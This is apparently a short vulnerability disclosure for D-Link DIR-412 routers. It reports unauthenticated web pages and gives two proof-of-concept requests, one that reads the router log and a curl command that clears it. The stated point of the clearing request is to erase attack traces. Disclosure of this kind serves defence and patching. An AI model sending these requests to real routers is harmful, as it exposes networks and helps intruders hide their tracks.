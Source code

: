 #### info of vulnerability
There are some web interfaces without authentication requirements in D-Link routers. An attacker can get the router’s log file and clear it ,which could be used to detect inside network structure and erase the attack traces.

Vulnerable targets include but are not limited to the lastest firmware versions of DIR-412(A1-1.14WW)   

Poc1: http://targetip/log_get.php
Attackers can get log file by this request.
![poc1](poc1.png)
Poc2: curl -d "act=clear&logtype=sysact" "http://targetip/log_clear.php"
Attackers can clear log file by this request.
![poc2](poc2.png)

